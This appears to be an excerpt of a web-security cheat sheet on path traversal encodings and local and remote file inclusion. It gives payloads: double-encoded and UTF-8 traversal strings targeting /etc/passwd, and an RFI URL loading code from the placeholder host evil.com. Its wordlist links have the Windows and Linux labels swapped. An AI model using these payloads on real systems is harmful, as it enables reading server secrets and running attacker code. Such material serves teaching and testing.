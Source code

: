 Double Encoding

> * dot >> `%252e`
> * forward slash >> `%252f`
> * back slash >> `%255c`
> * Example: `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

UTF-8 Encoding

> * Dot >> `%c0%2e %e0%40%ae %c0ae etc.`
> * Forward slash >> `%c0%af %e0%80%af %c0%2f etc.`
> * Back slash >> `%c0%5c %c0%80%5c etc.`



## File Inclusion

> An Attacker tricks the web application into reading and executing files on the servers. These are two types of Vulnerability LFI & RFI.

### Types

> * Local File Inclusion (LFI): Allows an attacker to read local files on the web server using malicious web request.
> * Remote File Inclusion (RFI): Allows an attacker to include file from attacker server which results in executing code.

LFI

> Attackers trick the web application to load files which results in reading and access sensitive information.
>
> How It Works:
>
> > * attacker tricked the URL input function and added unintended files path.
> >   * `https://example.com/home.php?files=../../../etc/passwd`
> > * The web application loads the path which results in attacker can access the sensitive information on the server

RFI

> Attackers trick the web application to add and execute files from an external server which results in executing hosted external server malicious code.
>
> How it Works
>
> > * Attacker tricked the URL input function and added the unintended file path of a remote server
> >   * `https://example.com/home.php?file=https://evil.com/badcode.php`
> > * the web application loads the path and attacker can access the malicious code.

#### Word List

> Windows
>
> > [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_linux.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)
>
> Linux
>
> > [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_windows.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
